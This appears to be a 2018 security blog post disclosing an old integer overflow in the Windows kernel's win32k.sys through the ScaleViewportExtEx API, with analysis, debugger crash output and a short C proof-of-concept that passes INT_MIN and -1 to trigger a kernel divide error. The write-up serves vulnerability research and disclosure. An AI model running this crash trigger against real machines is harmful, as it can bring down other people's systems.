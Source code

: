 ```yaml
---
layout: post
title:  "Microsoft Windows Kernel - Win32k.sys Integer Overflow"
date:   2018-09-19 03:39:03 +0700
categories: [security, integer]
---
```


Description
-----------
Few years back I found an integer overflow in kernel (win32k.sys), should be around 2013. It was inspiration to Taviso's blog 
(he was targeting different API, https://gist.github.com/taviso/4658638). AFAIK, this bug has been fixed few months after I discovered 
it. The vulnerability could be reported by someone before me.

Vulnerability Analysis
----------------------
The bug actually was part of **Coordinate Spaces & Transformations** API. Example used of coordinate spaces & transformations,
 ```
  - Scale
  - Rotate
  - Translate
  - Shear
  - Reflect Graphics output
```
This is like we can see daily if used computer. **Coordinate Spaces** act as planar space that locates 2-dimensional objects, example: client area, desktop, page of printer paper. While **Transformations** is a algorithm alters size, orientation and shape of objects, example: Screen, printer. In Taviso blog, he found that the API **ScaleWindowExtEx** was vulnerable to integer overflow. 

I found the similar issue on the API **ScaleViewportExtEx**. The **ScaleViewportExtEx** function modifies the viewport for a device context 
using the ratios formed by the specified multiplicands and divisors. The syntax as in:
```
BOOL ScaleViewportExtEx(
  HDC    hdc,
  int    xn,
  int    dx,
  int    yn,
  int    yd,
  LPSIZE lpsz
);
```

It appears that there is no further checking after dividing the value. It does not recognize the pattern of **Positive** or **Negative** 
numbers. Signed divide **EDX:EAX** by **[ebp+Xdenom]**, with result stored as:

  ```EAX = High-Level Address, EDX = Integer Overflow```

A little trivia about integer overflow,
```
  - Sign of the remainder is always the same as the sign of the dividend.
  - The absolute value of the remainder is always less than the absolute value of the divisor. 
  - Overflow is indicated with the #DE (divide error) exception rather than with the OF (overflow) flag.
```
Crash triage upon run our executable
```
ErrCode = 00000000
eax=80000000 ebx=00000001 ecx=00340910 edx=ffffffff esi=e13ce008 edi=00000000
eip=bf941b8d esp=f671cd10 ebp=f671cd44 iopl=0         ov up ei ng nz na pe cy
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010286
win32k!NtGdiScaleViewPortExtEx+0x99:
bf941b8d f77d10          idiv    eax,dword ptr [ebp+10h] ss:0010:f671cd54=ffffffff
```

Crafted Proof-of-Concept as in following:
```
#include <windows.h>
#include <stdio.h>

int main(int argc, char **argv)
{
	LoadLibraryA("user32.dll");
	LoadLibraryA("gdi32.dll");
	
	HDC		dev_context;
	SIZE	Size;
	
	dev_context = CreateCompatibleDC(NULL);
	SetLayout(dev_context, LAYOUT_RTL);
	
	ScaleViewportExtEx(dev_context, INT_MIN, -1, -1, -1, &Size);
	
	return 0;
}
```
